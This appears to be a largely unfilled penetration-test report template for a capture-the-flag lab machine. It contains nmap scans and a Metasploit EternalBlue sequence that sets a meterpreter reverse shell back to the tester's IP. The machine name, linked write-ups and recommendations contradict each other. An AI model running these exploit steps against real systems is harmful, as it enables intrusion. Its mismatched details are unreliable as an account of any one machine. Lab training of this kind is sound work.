

# Lab name Report

## Introduction

This report is about pentesting a specific machine to see if it's well secured. It will document every thought and interesting investigation that helped to get into privilege escalation.  

## Objective

Run an analysis onto a specific machine ...

## Perimeter

Only this machine (...) with specific tools

- nmap
- masscan
- nc

# High-Level Summary

## Mitre techniques

Initial Access:  

- N/A  

Execution:  

- N/A

Persistence:  

- N/A  

Privilege Escalation:  

- N/A

Defense Evasion:  

- N/A

Credential Access:  

- N/A

Discovery:  

- N/A

Lateral Movement:

- N/A

Collection:  

- N/A 

Command and Control:  

- N/A

Exfiltration:  

- N/A  

Impact:  

- N/A

## Recommendations

I recommend patching the vulnerabilities identified during the testing to ensure that an attacker cannot exploit these systems in the future.
One thing to remember is that these systems require frequent patching and once patched, should remain on a regular patch program to protect additional vulnerabilities that are discovered at a later date.  

Also, I recommend a better management of granted access for framework like perl to avoid root execution without password for any user.  

Check other recommendations at the end of this document. 

# Soluces

[ippsec video of shocker](https://www.youtube.com/watch?v=XJmBpOd__N8)  
[soluces from ](https://github.com/michoo/sec-learning/blob/master/soluces/1_Linux/beep-writeup-w-o-metasploit.md)  
[soluces from Hack the box](https://github.com/michoo/sec-learning/blob/master/1_Linux/Beeo/soluce/Beep.pdf)

# Methodologies

I utilized a widely adopted approach to performing penetration testing that is effective in testing how well the Offensive Security Exam environments is secured.
Below is a breakout of how I was able to identify and exploit the variety of systems and includes all individual vulnerabilities found.

## Reconnaissance

The information gathering portion of a penetration test focuses on identifying the scope of the penetration test.
During this penetration test, I was tasked with exploiting the shocker machine.

The specific IP addresse was:

**Scope**

- 10.129.134.96

My attacking ip machine was 10.10.14.150

## System IP: 10.129.134.96
### Enumeration

Lets do a nmap

```bash
mkdir nmap
sudo nmap -sC -sV -O -oA nmap/initial 10.129.134.96 -Pn
    -sC: run default nmap scripts
    -sV: detect service version
    -O: detect OS
    -oA: output all formats and store in file nmap/initial

```

```text
nmap --script vuln -oA nmap/vuln 10.129.134.96
```

```
nmap --script smb-vuln-ms17-010 -oA nmap/eternal -v 10.129.134.96 -Pn
```


#### TCP

#### UDP

#### Web Services

#### Other Services

#### Harvested Informations

#### Vuln Investigation

Blue eternal


##### Check for exploits

### Penetration

Metasploit  


```
search eternalblue  
use exploit/windows/smb/ms17_010_eternalblue  
options  

set RHOST 10.129.134.96 (victim's machine)
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 10.10.14.150 (kali's machine)
set LPORT 4444
exploit
sysinfo
getuid
```


some help with other (eternal)[https://null-byte.wonderhowto.com/how-to/exploit-eternalblue-windows-server-with-metasploit-0195413/]

### Post exploitation



#### Host Information

#### File system

#### Running processes

#### Installed applications

#### Users & Group

#### Network

#### Scheduled job

### Privilege escalation

*Additional Priv Esc info*

**Vulnerability Exploited:**

**Vulnerability Explanation:**

**Vulnerability Fix:**

**Severity:**

**Exploit Code:**

### Goodies

#### Hashes

#### Passwords

#### Proof/Flags/Other

**Proof Screenshot Here:**

**Proof.txt Contents:**

## Maintaining Access

Maintaining access to a system is important to us as attackers, ensuring that we can get back into a system after it has been exploited is invaluable.
The maintaining access phase of the penetration test focuses on ensuring that once the focused attack has occurred (i.e. a buffer overflow), we have administrative access over the system again.
Many exploits may only be exploitable once and we may never be able to get back into a system after we have already performed the exploit.

## House Cleaning

The house cleaning portions of the assessment ensures that remnants of the penetration test are removed.
Often fragments of tools or user accounts are left on an organization's computer which can cause security issues down the road.
Ensuring that we are meticulous and no remnants of our penetration test are left over is important.

After collecting trophies from the exam network was completed, Alec removed all user accounts and passwords as well as the Meterpreter services installed on the system.
Offensive Security should not have to remove any user accounts or services from the system.

# Detailed Recommandations

## Technical

## Governance

## Blue team

# Additional Items

## Appendix - Proof and Local Contents

IP (Hostname) | Local.txt Contents | Proof.txt Contents
--------------|--------------------|-------------------
192.168.x.x   | hash_here          | hash_here
192.168.x.x   | hash_here          | hash_here
192.168.x.x   | hash_here          | hash_here
192.168.x.x   | hash_here          | hash_here
192.168.x.x   | hash_here          | hash_here

## Appendix - Metasploit/Meterpreter Usage

For the exam, I used my Metasploit/Meterpreter allowance on the following machine: `192.168.x.x`

## Appendix - Completed Buffer Overflow Code

```
code here
```
